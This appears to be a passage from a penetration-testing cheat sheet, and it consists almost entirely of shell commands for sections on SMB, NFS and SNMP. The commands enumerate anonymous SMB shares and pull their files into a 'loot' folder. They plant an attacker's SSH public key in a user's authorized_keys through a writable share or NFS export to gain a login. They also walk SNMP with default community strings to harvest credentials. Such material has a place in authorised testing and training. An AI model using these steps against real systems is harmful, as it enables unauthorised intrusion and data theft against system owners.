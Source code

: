 ### 7) SMB/Samba (445) — anonymous shares, read/write
```bash
# NSE
nmap -p445 --script smb-enum-shares,smb-enum-users,smb-os-discovery $IP

# List shares (no password)
smbclient -L //$IP/ -N

# Map shares, show perms
smbmap -H $IP

# Access a share
smbclient //$IP/public -N -c "ls; lcd loot; prompt OFF; mget *"

# If writable, try placing an SSH authorized_keys for a user if home dirs are shared
# Example (update paths accordingly):
echo 'ssh-rsa AAAA... attacker@kali' > authorized_keys
smbclient //$IP/users -N -c "put authorized_keys user/.ssh/authorized_keys"
```

### 8) NFS (2049) — exported directories, write-to-SSH
```bash
# List exports
showmount -e $IP

# Mount an export (example /home)
sudo mount -t nfs -o vers=3 $IP:/home ./mounts/nfs

# Inspect permissions
ls -la mounts/nfs

# If you can write to a user home:
mkdir -p mounts/nfs/targetuser/.ssh
cat ~/.ssh/id_rsa.pub | tee mounts/nfs/targetuser/.ssh/authorized_keys
chmod 700 mounts/nfs/targetuser/.ssh
chmod 600 mounts/nfs/targetuser/.ssh/authorized_keys

# Then SSH in:
ssh targetuser@$IP
```
Note: Exploits relying on no_root_squash typically require additional foothold on the target; the authorized_keys write is the usual initial-access route.

### 9) SNMP (161/udp) — info leakage (processes, users, networks)
```bash
# Common community strings: public, private
snmpwalk -v2c -c public $IP 1.3.6.1.2.1.1          # system info
snmpwalk -v2c -c public $IP 1.3.6.1.2.1.25.1.6.0   # system processes
snmpwalk -v2c -c public $IP 1.3.6.1.4.1            # enterprises (often juicy)
snmpwalk -v2c -c public $IP 1.3.6.1.2.1.4.20       # IP addresses
```
- Look for credentials in running process args, interface names, or descriptions.
